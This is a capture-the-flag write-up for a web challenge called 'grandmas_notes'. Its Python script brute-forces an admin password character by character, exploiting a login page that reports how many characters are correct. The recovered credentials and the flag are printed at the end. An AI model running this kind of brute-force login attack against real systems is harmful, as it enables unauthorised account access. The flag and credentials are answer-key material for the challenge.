


## grandmas_notes

My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.

http://52.59.124.14:5015




## solution




```
import requests

password = ""
for i in range(20):
    password += " "
    for ch in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789":
        password = password[:-1] + ch
        print(password)
        r = requests.post(
            "http://52.59.124.14:5015/login.php",
            data={"username": "admin", "password": password},
        )
        if "characters correct!" in r.text:
            parts = r.text.split(" ")
            count = int(parts[parts.index("characters") - 1])
            if count == len(password):
                break
        else:
            print(password, r.text)
            exit(0)
```

- admin
- YzUnh2ruQix9mBWv

## flag

`ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}`